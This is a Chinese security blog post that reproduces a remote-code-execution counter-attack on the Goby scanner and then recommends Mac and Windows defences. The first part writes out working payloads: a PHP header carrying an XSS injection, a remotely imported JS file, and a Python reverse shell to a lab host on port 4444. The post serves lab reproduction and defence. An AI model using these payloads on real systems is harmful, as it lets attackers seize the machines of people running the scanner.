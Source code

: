 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/jIF1dRsyThQlcjYOIX2mtw)

**点击蓝字**

![](https://mmbiz.qpic.cn/mmbiz_gif/4LicHRMXdTzCN26evrT4RsqTLtXuGbdV9oQBNHYEQk7MPDOkic6ARSZ7bt0ysicTvWBjg4MbSDfb28fn5PaiaqUSng/640?wx_fmt=gif)

**关注我们**

  

**_声明  
_**

本文作者：TeamsSix  
本文字数：1431

阅读时长：5 分钟

附件 / 链接：点击查看原文下载

**本文属于【狼组安全社区】原创奖励计划，未经许可禁止转载**

  

由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，狼组安全团队以及文章作者不为此承担任何责任。

狼组安全团队有对此文章的修改和解释权。如欲转载或传播此文章，必须保证此文章的完整性，包括版权声明等全部内容。未经狼组安全团队允许，不得任意修改或者增减此文章内容，不得以任何方式将其用于商业目的。

  

**_前言_**

  

最近看到网上反制 Goby 的文章，而自己平时 Mac 一直是裸奔的状态，这下整的自己有点慌了，下面就来记录下反制 Goby RCE 的复现以及 Mac 用户的防御策略。

一、

**_反制 Goby RCE 复现_**

为了方便，这里直接使用 PhpStudy 了，这里的 PhpStudy 地址为 http://172.16.214.4 ，直接将 Web 服务里的 index.php 改为以下内容。

```
<?php
header("X-Powered-By: PHP/<img    src=1    onerror=alert(\"TeamsSix@WgpSec\")>");
?>
```

Goby 在扫描到 http://172.16.214.4 后，点击扫描结果里的 172.16.214.4  就会弹窗了。

> 注意扫描结果里一定要点击对应的 IP 才行，比如我这里的 IP 是 172.16.214.4，不然是触发不了的

![](https://mmbiz.qpic.cn/mmbiz_png/4LicHRMXdTzAuotwdRXvKNFmmgrhZpHiaNzuTpUBU2Hib8SsvloSPIJGP4p0nbXQCWqVNJIvHe1ZnmKszQVQfib9tg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/4LicHRMXdTzAuotwdRXvKNFmmgrhZpHiaNT5GQaQj9EcMpEQpXZU2ELHeGW4RTibnyrrf4qo9du8LzjTSpdxX017A/640?wx_fmt=png)

复现 RCE 需要再新建一个 js 文件，这里我在 172.16.214.4 的 www 目录下新建了一个名为 mac 的 js 文件，js 内容如下：  

```
(function(){
require('child_process').exec('open /System/Applications/Calculator.app');
require('child_process').exec('python -c \'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("172.16.214.4",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);\'');
})();
```

执行这段 JS 会在本地打开计算器，并利用 Python 反弹 Shell 到 172.16.214.4 主机的 4444 端口

```
<?php
header("X-Powered-By: PHP/<img    src=1    onerror=import(unescape('http%3A//172.16.214.4/mac.js'))>");
?>
```

之后将 index.php 修改如下：

172.16.214.4 上使用 NC 开启 4444 端口监听后，Goby 开启扫描，点击扫描结果里的 172.16.214.4 的详细信息，成功反弹 Shell

![](https://mmbiz.qpic.cn/mmbiz_png/4LicHRMXdTzAuotwdRXvKNFmmgrhZpHiaNTfPU00zGPiaicPbYGrFnXK44PWwvDFyBTAWXzWWQaXTry2EiaaicaDce3Q/640?wx_fmt=png)

二、

**_Mac 用户防御策略_**

裸奔的 Mac 真的是一反弹一个准，太没安全感了，于是在师傅们的推荐下，入手了 little snitch，little snitch 官网链接：https://www.obdev.at/products/littlesnitch

> 声明下这个不是广告啊，只是分享下自己在 Mac 中的防御方法而已

little snitch 可以用来监控 Mac 中所有的联网行为，界面长这个样子，个人觉着还是挺漂亮的。

![](https://mmbiz.qpic.cn/mmbiz_png/4LicHRMXdTzAuotwdRXvKNFmmgrhZpHiaNG0pk63gE0jRs1nSiadPeK7uKGQwqibicfibricpn4HwicicTiatcibmu0stibDCQ/640?wx_fmt=png)

实测下来，还是不错的，即使在 Silent 模式下，当监测到有异常连接行为时也会告警，在使用过程中也是能成功拦截到反弹 Shell 请求的。

![](https://mmbiz.qpic.cn/mmbiz_png/4LicHRMXdTzAuotwdRXvKNFmmgrhZpHiaNgaT1TI6ia8cplEW3f5AmibQuicQbKKx8sKxXq3HL9Ywiauxa09lBR5fKHA/640?wx_fmt=png)

不过 little snitch 是付费的，个人觉着买个家庭装是比较划算的，家庭装支持 5 台设备，几个小伙伴拼个单，每个人约合 94 元，另外比较良心的是这个有效期是永久的。

一向习惯了白嫖的我，想了想为了安全还是剁手了，毕竟我可不想那天被反制了，要是被反制了那就 GG 了。

说到这里也许会有人好奇，为啥不说说 Windows 用户的防御策略，于是我自己实际测试了一下，发现在 Windows 下装个杀软就行了，这里以火绒为例，当监测到反弹 Shell 动作时，火绒会直接弹出告警，所以感觉 Windows 就没啥好说的了。

![](https://mmbiz.qpic.cn/mmbiz_png/4LicHRMXdTzAuotwdRXvKNFmmgrhZpHiaNddFYtvZI18SYqohvIkUjtndhWyNaa1hHxjFIIx13GU6WR6YGVXwHiaA/640?wx_fmt=png)

  

**_后记_**

  

本篇文章没有过多赘述产生原因细节等，因为主要是想分享下自己的防御策略，具体的漏洞细节参考下面的参考文章即可。

不过文中提到的也只是个临时防护方案，存在被绕过的风险，目前 Goby 官方已经发布了最新版本修复了这个漏洞，各位小伙伴赶紧升级到最新版本吧~

参考文章：[https://mp.weixin.qq.com/s/tl17-Qz-VXpSlZtZWDgeHg](https://mp.weixin.qq.com/s?__biz=MzIxNDAyNjQwNg==&mid=2456098521&idx=1&sn=3d1b6e3e79a653c9e3367a6ee64a3a78&scene=21#wechat_redirect)

  

**_作者_**

  

![图片](https://mmbiz.qpic.cn/mmbiz_jpg/4LicHRMXdTzAuotwdRXvKNFmmgrhZpHiaNqRu4gdR4H5f91fdYvUQrYN5iagm6xLcSYelMmzrlNniaRHjcQZAnHjaw/640?wx_fmt=jpeg)

TeamsSix

  

**_扫描关注公众号回复加群_**

**_和师傅们一起讨论研究~_**

  

**长**

**按**

**关**

**注**

**WgpSec 狼组安全团队**

微信号：wgpsec

Twitter：@wgpsec

![](https://mmbiz.qpic.cn/mmbiz_jpg/4LicHRMXdTzBhAsD8IU7jiccdSHt39PeyFafMeibktnt9icyS2D2fQrTSS7wdMicbrVlkqfmic6z6cCTlZVRyDicLTrqg/640?wx_fmt=jpeg)

![](https://mmbiz.qpic.cn/mmbiz_gif/gdsKIbdQtWAicUIic1QVWzsMLB46NuRg1fbH0q4M7iam8o1oibXgDBNCpwDAmS3ibvRpRIVhHEJRmiaPS5KvACNB5WgQ/640?wx_fmt=gif)